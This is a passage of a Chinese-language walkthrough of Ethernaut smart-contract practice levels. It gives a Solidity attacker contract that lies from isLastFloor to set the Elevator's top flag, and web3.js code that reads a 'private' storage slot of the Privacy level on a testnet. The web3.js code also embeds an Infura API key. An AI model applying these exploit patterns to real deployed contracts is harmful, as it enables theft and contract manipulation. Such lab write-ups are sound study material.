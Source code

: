 `wait getBalance(contract.address)`可以查看合约的余额。

# Elevator

也很简单，让top为true即可。

```javascript
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```

构造个Building合约，实现接口中的信息，然后让第一次调用`isLastFloor`返回false，第二次调用`isLastFloor`返回true即可：

```javascript
pragma solidity ^0.6.0;


contract Building {
    address public target = 0x802450E17Ad3e0D1484bb8817EF76505FFB7FcB1;
    bool public flag = false;
    function isLastFloor(uint) external returns (bool){
        if(flag == false){
            flag = true;
            return false;
        }
        return true;
    }
    function attack() public {
        target.call(abi.encodeWithSignature("goTo(uint256)",1));
    }
}
```

# Privacy

还是private的值不知道：

```javascript
  bool public locked = true;   //0
  uint256 public ID = block.timestamp;   //1
  uint8 private flattening = 10;      //2
  uint8 private denomination = 255;     //2
  uint16 private awkwardness = uint16(now);     //2
  bytes32[3] private data;       // 3 4 5
```

算出`data[2]`在slot 5，然后还是web3.js直接getStorageAt就行了：

```javascript
const Web3 = require('web3');
const rpcURL = "https://rinkeby.infura.io/v3/2ab0c9f096474b2a8b7b60a25ded6c21";
const web3 = new Web3(rpcURL);


const address = "0x6d94A5398Ea81aFb2C6961d1f45dfdC347b17996"

web3.eth.getStorageAt(address,"5",function(x,y){console.info(y);});
```
